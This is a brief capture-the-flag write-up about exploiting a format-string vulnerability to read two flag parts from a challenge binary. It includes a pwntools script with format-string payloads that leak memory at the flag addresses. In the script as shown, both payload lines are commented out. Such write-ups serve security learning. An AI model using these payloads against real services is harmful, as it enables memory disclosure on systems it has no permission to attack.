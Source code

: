 Okay, as the description suggests, the challenge is about a format string attack.
I used Ghidra to disassemble the binary. 


![](https://github.com/r4ksh1t0011/CTF-Writeups/blob/pngs/flag.png)<br> 
<br>

Thus, we found the respective addresses where flag1 and flag2 are located. Now, we only need to extract the data from that address which can be done by exploiting the format string vulnerability. here's a simple script for it.

```
#!/usr/bin/env python
from pwn import *
flag1 = 0x804a02c
flag2 = 0x804a040
port =  18137
host = "hack.scythe2021.sdslabs.co"
#target = process("./f_me")   use it to test the exploit locally

target=remote(host,port)

# First send this payload, you'll get the first part of the flag


#payload = p32(flag1) +('%08x '*6+'%s').encode()

# After you get the first part of the flag, use this payload to get the second part. 
#payload = p32(flag2) +('%08x '*6+'%s').encode()
target.recvuntil("ploxx")
target.sendline(payload)
target.interactive()
```
